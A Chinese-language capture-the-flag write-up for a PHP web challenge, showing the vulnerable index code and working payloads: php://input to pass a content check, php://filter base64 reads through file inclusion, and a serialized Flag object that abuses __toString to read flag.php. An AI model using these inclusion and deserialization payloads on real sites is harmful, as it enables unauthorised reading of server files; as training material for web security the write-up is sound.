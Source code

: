 # 考察知识点：

# 1.php伪协议（php://input,php:///filter)

# 2.序列化 toString



# 1.打开网站发现源代码

```javascript
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```



# 2. 查看源代码需要使$text的内容为"welcome to the zjctf”，并且是使用file_get_contents()的方式，不能直接text="welcome to the zjctf"

此时需要采取php://input伪协议



构造：

```javascript
?text=php://input

post:
    welcome to the zjctf
```



![](images/0D83B2A12DF4404F8F6E6039D79CF31Bclipboard.png)



此时已经绕过第一个限制



# 3. 提示存在useless.php文件，并且该文件才include前并没有进行任何限制，很显然存在文件包含漏洞，使用php://filter伪协议即可读取源代码



构造：

```javascript
?text=php://input&file=php://filter/convert.base64-encode/resource=useless.php

post:
    welcome to the zjctf
```



![](images/29F78769B3B1474CB589AFEC56E0A841clipboard.png)



# 4.读取到useless.php文件原代码的base64编码，解码即可得到源代码

```javascript
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```



# 5. 根据index.php的unserialize和uselexx.php的toString方法判断存在序列化漏洞

，只要使useless.php文件中的file=flag.php即可得到flag.php文件的你内容

构造序列化数据exp:

```javascript
<?php

class Flag{  //flag.php
    public $file="flag.php";
}

$file=new Flag();
echo serialize($file);
?>

输出：
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```



# 6.访问即可得到flag

![](images/1049E4E096DE42FE949FDEF773CADA57clipboard.png)





